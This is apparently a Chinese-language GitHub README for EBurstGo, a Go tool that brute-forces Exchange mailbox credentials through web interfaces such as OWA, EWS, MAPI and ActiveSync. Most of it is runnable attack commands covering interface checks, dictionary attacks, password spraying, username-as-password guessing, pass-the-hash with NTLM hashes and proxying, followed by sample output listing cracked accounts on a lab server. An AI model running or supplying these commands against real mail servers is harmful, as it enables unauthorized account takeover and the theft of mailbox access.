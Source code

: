 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

注意 Releases 中的代码不一定是最新的

建议将本项目 clone 下来然后执行 `goreleaser build --snapshot` 手动编译

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -nocolor
    	关闭输出颜色
  -nosave
    	不将结果输出至文件
  -o string
    	指定结果输出文件 (default "result.txt")
  -pass string
    	指定密码
  -passf string
    	密码字典
  -proxy string
    	指定 socks/http(s) 代理
  -pth
    	指定为 Pth 模式 (Pass The Hash)
  -t int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -user-as-pass
    	指定密码与用户名相同
  -userf string
    	用户名字典
  -userpassf string
    	指定用户名密码字典 (user:pass)
  -v	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

默认会将爆破成功的账户追加写入 result.txt

```shell
# 常规爆破
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews

# 指定用户名
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user Alice -passf pass.txt -mode ews

# 密码喷洒
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -pass 'Changeme123' -mode ews

# 支持 user:pass 格式的字典
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userpassf userpass.txt -mode ews

# 密码与用户名相同
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -user-as-pass -mode ews

# Pth 爆破 (pass.txt 为 NTLM Hash)
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -pth

# 设置 socks/http(s) 代理
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -socks socks5://127.0.0.1:1080
```

examples

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 用户名:7 密码:9 共计:63
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

## Todo

- 开启代理使用 NTLM 认证爆破一段时间后出现 `connection refused`, 待解决 (这个目前来说好像没有什么好的解决方法(?) 只能通过将协程数量调小 + 添加延时来避免)

- `/powershell` 接口 (Kerberos 认证) 待支持

## License

Modified some code from the following repos

[Azure/go-ntlmssp](https://github.com/Azure/go-ntlmssp): Copyright (c) 2016 Microsoft The MIT License (MIT)

